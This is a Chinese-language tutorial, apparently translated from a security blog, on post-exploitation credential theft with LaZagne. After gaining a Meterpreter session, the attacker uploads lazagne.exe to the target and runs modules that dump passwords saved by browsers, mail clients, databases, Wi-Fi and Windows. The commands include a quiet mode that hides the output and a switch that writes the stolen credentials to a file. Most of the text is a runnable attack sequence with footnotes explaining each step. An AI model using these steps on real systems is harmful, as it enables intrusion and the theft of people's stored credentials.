 ## 使用LaZagne对保存的密码进行后利用 [^1]

### **LaZagne里出名的脚本** [^2]

### **目标软件** [^3]

### **语法和参数**

![](http://ww1.sinaimg.cn/large/007DJod2gy1g0phekdbf3j30i508zdg3.jpg)

### **实现Meterpreter并上传LaZagne**

`upload lazagne.exe ./` [^4]

`lazagne.exe -h`

`lazagne.exe mails`

`lazagne.exe windows`

`lazagne.exe browsers`

`lazagne.exe databases`

`lazagne.exe wifi`

`lazagne.exe all` [^5]

`lazagne.exe all -oN` [^6]

`lazagne.exe all -vv `[^7]

`lazagne.exe all -quiet -oN` [^8]

[原文](https://www.hackingarticles.in/post-exploitation-on-saved-password-with-lazagne/)

[项目地址](https://github.com/AlessandroZ/LaZagne)

---

[^1]: 该 LaZagne 是一个开源应用程序。它检索系统上存储的密码

[^2]: KeeThief 、mimipy 、mimikatz 、pypykatz、 creddump、 chainbreaker、 pyaes、 pyDes、 秘密存储等等

[^3]: 火狐、谷歌浏览器、歌剧、Skype、PostgreSQL、雷鸟、KeePass、CoreFTP、FileZilla等等

[^4]: 现在我们在目标系统上有 LaZagne ，现在是枚举密码的时候了。在meterpreter shell上使用shell命令到达目标系统上的命令行。

[^5]: 该参数运行LaZagne中的所有模块。选择此参数后，脚本将在后台运行，该脚本将提取存储在目标系统上的所有登录凭据

[^6]: 这个参数应该用一些参数运行，否则会产生错误（我们在这里使用所有参数）。此参数是可选的运行。此参数不仅会在终端屏幕上打印输出，还会在运行的目录中创建一个文件，并将其与脚本的输出一起写入。

[^7]: 这个参数应该用一些参数运行，否则会产生错误（我们在这里使用所有参数）。此参数是可选的运行。默认情况下，在 LaZagne中，我们有两个级别的详细程度。它们是0级和1级。如果没有给出参数，则自动选择0级。但是当我们给出 -vv 参数时，它会增加提取的冗长度。输出也会改变。现在，LaZagne强行运行其库中的每个脚本，并尝试提取越来越多的凭据

[^8]: 这个参数应该用一些参数运行，否则会产生错误（我们在这里使用所有参数）。此参数是可选的运行。此参数不会在终端屏幕上打印任何输出。脚本确实在后台运行，但是没有提取密码的可见性，因此我们将参数与前面讨论过的oN参数一起使用，因为它在运行的目录中创建了一个文件并将其与脚本的输出一起写入。
